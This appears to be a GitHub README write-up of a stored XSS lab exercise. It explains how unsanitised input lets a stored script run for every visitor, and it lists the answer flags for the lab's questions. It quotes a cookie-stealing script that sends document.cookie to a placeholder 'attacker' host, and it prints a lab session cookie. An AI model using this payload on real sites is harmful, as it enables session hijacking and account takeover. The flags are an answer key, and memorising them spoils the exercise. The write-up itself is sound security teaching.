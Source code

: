 # Stored XSS

**To see which HTML/JavaScript payloads are being used to do the task please refer [this folder](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/tree/main/04%20-%20Stored%20XSS/Sample%20Payloads).** <br>
- Stored cross-site scripting is the most dangerous type of XSS. This is where a malicious string originates from the website's database. This often happens when a website allows user input that is ***not sanitised*** (remove the **"bad parts"** of a user's input) when inserted into the database.
   
  ![Screenshot (820)](https://user-images.githubusercontent.com/63872951/183843240-6955d1d5-1a23-42e6-8be3-67dbf8544db7.png)
 
- A attacker creates a payload in a field when signing up to a website that is stored in the websites database. 
- If the website doesn't properly sanitise that field, when the site displays that field on the page, it will execute the payload **to everyone** who visits it. 
- The payload could be as simple as `<script>alert(1)</script>`
- However, this payload won't just execute in your browser but any other browsers that display the malicious data inserted into the database.


# Answer the questions below

- The machine you deployed earlier will guide you though exploiting some cool vulnerabilities, stored XSS has to offer. There are hints for answering these questions on the machine.

1. Add a comment and see if you can insert some of your own HTML.

Doing so will reveal the answer to this question.
```
HTML_T4gs
```
2. Create an alert popup box appear on the page with your document cookies.
```
W3LL_D0N3_LVL2
```
3. Change "XSS Playground" to "I am a hacker" by adding comments and using Javascript.
```
websites_can_be_easily_defaced_with_xss
```
4. Stored XSS can be used to steal a victims cookie (data on a machine that authenticates a user to a webserver). This can be done by having a victims browser parse the following Javascript code:

   ```js
   <script>window.location='http://attacker/?cookie='+document.cookie</script>
   ```

   This script navigates the users browser to a different URL, this new request will includes a victims cookie as a query parameter. When the attacker has acquired the cookie, they can use it to impersonate the victim. 

   Take over Jack's account by stealing his cookie, what was his cookie value?
```
s%3Aat0YYHmITnfNSF0kM5Ne-ir1skTX3aEU.yj1%2FXoaxe7cCjUYmfgQpW3o5wP3O8Ae7YNHnHPJIasE
```
5. Post a comment as Jack.
```
c00ki3_stealing_
```

# The Next Steps

- Click **[here](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/tree/main/04%20-%20Stored%20XSS/Stored%20XSS%20Approach)** to see how to move further in a stored XSS attack.

# Scripts used to exploit

- Click below to see which scripts/payloads were used in finding the answers to complete this task:

   - [Question 2](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/blob/main/04%20-%20Stored%20XSS/Used%20Payloads/1%20-%20Q2.html)
   - [Question 3](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/blob/main/04%20-%20Stored%20XSS/Used%20Payloads/2%20-%20Q3.js)
   - [Question 4](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/blob/main/04%20-%20Stored%20XSS/Used%20Payloads/3%20-%20Q4.js)
 

